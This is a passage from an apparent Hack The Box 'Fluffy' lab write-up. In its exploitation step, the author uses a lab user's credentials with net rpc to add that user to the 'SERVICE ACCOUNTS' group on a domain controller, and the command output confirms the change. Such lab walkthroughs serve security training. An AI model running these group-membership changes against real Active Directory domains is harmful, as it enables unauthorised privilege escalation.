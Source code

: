 ![](images/Pasted%20image%2020250715110538.png)

### 🧪 Exploitation

The attack started by running the suggested commands to add user `p.agila` as a member of the `SERVICE ACCOUNTS` group.

```
fcoomans@kali:~/htb/fluffy$ net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\winrm_svc

fcoomans@kali:~/htb/fluffy$ net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"

fcoomans@kali:~/htb/fluffy$ net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY/p.agila%prometheusx-303" -S "dc01.fluffy.htb"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc
```
